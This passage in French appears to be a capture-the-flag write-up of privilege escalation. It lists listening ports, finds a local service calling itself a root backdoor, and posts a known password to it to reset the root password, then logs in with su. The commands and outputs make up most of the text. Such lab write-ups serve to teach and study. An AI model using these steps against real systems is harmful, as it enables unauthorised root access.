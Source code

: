 ```bash
ss -nl | tail
icmp6UNCONN 0      0                                          *%eth0:58                                                   *:*                                   
udp  UNCONN 0      0                                         0.0.0.0:56609                                          0.0.0.0:*                                   
udp  UNCONN 0      0                                   127.0.0.53%lo:53                                             0.0.0.0:*                                   
udp  UNCONN 0      0                               10.10.17.188%eth0:68                                             0.0.0.0:*                                   
tcp  LISTEN 0      80                                        0.0.0.0:3306                                           0.0.0.0:*                                   
tcp  LISTEN 0      128                                     127.0.0.1:8080                                           0.0.0.0:*                                   
tcp  LISTEN 0      128                                 127.0.0.53%lo:53                                             0.0.0.0:*                                   
tcp  LISTEN 0      5                                         0.0.0.0:4444                                           0.0.0.0:*                                   
tcp  LISTEN 0      5                                         0.0.0.0:5000                                           0.0.0.0:*                                   
tcp  LISTEN 0      128                                             *:80                                                   *:*    
```

En listant les ports en écoute on trouve 127.0.0.1:8080, qui est un port http.  

```bash
$ curl 127.0.0.1:8080
curl 127.0.0.1:8080
**********************************************************
*                Mason's Root Backdoor                   *
*                                                        *
*   Please Send Request (with "password" and "cmdtype")  *
*                                                        *
**********************************************************
-------------CMD TYPES-------------
lsla
reboot
passwd
```

On nous dit que l'on peut passer des commandes.  

```bash
$ curl 127.0.0.1:8080 -X POST -d "password=northernlights&cmdtype=passwd"
curl 127.0.0.1:8080 -X POST -d "password=northernlights&cmdtype=passwd"
<br>Password Changed To :northernlights<br>**********************************************************
*                Mason's Root Backdoor                   *
*                                                        *
*   Please Send Request (with "password" and "cmdtype")  *
*                                                        *
**********************************************************
-------------CMD TYPES-------------
lsla
reboot
passwd

su root
Password: northernlights
```
